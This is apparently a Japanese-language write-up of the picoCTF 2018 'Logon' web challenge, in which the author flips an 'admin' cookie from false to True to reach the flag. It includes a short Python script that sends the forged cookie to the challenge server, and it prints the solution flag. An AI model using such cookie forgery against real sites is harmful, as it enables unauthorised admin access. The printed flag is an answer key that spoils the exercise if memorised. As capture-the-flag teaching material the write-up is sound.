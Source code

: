 # Logon 

## Solve
```
I made a website so now you can log on to! 
I don't seem to have the admin password. 
See if you can't get to the flag. 
http://2018shell.picoctf.com:57252 (link)
```

## Hint
```
Hmm it doesn't seem to check anyone's password, except for admins?
How does check the admin's password?
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/67435086-5febf480-f626-11e9-936a-f712695e9339.png)

問題のページに移動すろとloginページが表示されます。

試しに`name: admin`と`pass: admin`と入力してみます。

![2](https://user-images.githubusercontent.com/47602064/67435187-9295ed00-f626-11e9-8c0b-ab7e8abb8b33.png)

すると以上のようにログインは出来たようですが、flagは得られませんでした・

デバッグで見てみると`Cookie`で`admin`が`false`になっていることが以下でわかります。

![3](https://user-images.githubusercontent.com/47602064/67435243-ae00f800-f626-11e9-872e-fa67274d0fd0.png)

![4](https://user-images.githubusercontent.com/47602064/67435306-ca9d3000-f626-11e9-819d-bc40c6595cca.png)

なのでそこを`True`に変えてみて再読込をしてみます。

![5](https://user-images.githubusercontent.com/47602064/67435350-e3a5e100-f626-11e9-939c-97ffc8177212.png)

すると`admin`で`True`の結果になり、flagが得ることが出来ました。

<br>

Pythonで実行させる場合は以下のようなプログラムでflagを綺麗に得ることが出来ます。

```python
#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True'}

r = requests.get('http://2018shell1.picoctf.com:37861/flag', data=params, cookies=jar)
source = r.text
print re.findall(r'(picoCTF\{.+\})', source)[0]
```


<br><br>

## FLAG: picoCTF{l0g1ns_ar3nt_r34l_2a968c11}
